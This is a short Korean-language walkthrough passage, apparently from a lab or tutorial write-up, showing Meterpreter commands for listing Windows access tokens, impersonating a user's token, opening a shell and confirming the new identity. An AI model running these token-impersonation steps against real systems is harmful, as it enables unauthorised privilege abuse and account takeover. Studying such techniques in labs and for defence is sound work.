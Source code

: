 ![02](./image5/Screenshot_2020-07-20_02-38-48.png)

첫번째로 해야 할 일은 이 시스템에 유용한 토큰이 있는지 확인하기 위하여해 토큰들을 나열하는 것이다. 

```
meterpreter> list_tokens
meterpreter> list_tokens -u
```

그리고 administrator을 흉내내고 현재 유저 아이디를 확인한다.

```
meterpreter> impersonate_token USER-K3AEH9K6N\\User1 //중간에 백슬래쉬를 하나 더 넣어준다!
meterpreter> getuid
```

쉘을 열어 우리가 누군지 확인한다.

```
meterpreter> shell
C:\WINDOWS\system32> whoami //이 커맨드는 작동하지 않을 것이다. 그러므로 echo를 사용한다.
C:\WINDOWS\system32> echo %USERDOMAIN%/%USERNAME%
```

